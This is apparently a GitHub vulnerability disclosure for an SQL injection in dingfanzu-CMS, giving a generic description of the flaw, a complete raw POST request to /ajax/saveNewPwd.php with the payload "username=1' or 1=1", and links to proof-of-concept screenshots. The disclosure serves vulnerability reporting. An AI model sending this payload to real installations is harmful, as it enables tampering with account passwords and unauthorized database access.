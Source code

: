 # dingfanzu-CMS saveNewPwd.php username SQL-inject

**Exploit Title: dingfanzu-CMS saveNewPwd.php username SQL inject**

**Exploit Author: webraybtl@webray.com.cn inc**

**Vendor Homepage: https://github.com/geeeeeeeek/dingfanzu**

**Software Link: https://github.com/geeeeeeeek/dingfanzu**

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection dingfanzu-CMS does not filter the content correctly at the "saveNewPwd.php" username module, resulting in the generation of SQL injection.

    Payload used:

```
POST /ajax/saveNewPwd.php HTTP/1.1
Host: 192.168.67.123
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded

username=1' or 1=1&pwd=1&pwd2=1
```
![2024-09-23-10-34-32-image](https://github.com/user-attachments/assets/b297e806-d901-4728-8c15-c782dae1cb53)


## Proof of Concept

![2024-09-23-10-35-07-image](https://github.com/user-attachments/assets/631e130d-3fed-4602-b9ac-4d4924e8ddee)

![2024-09-23-10-37-34-image](https://github.com/user-attachments/assets/a633bb52-e4ea-4913-a209-a2d852175fa1)

![2024-09-23-10-39-03-image](https://github.com/user-attachments/assets/851da19f-f9aa-4c85-a2ff-9be6694c82e7)

![2024-09-23-10-39-21-image](https://github.com/user-attachments/assets/9c9b5776-2973-4de9-8476-8cc9939717c9)

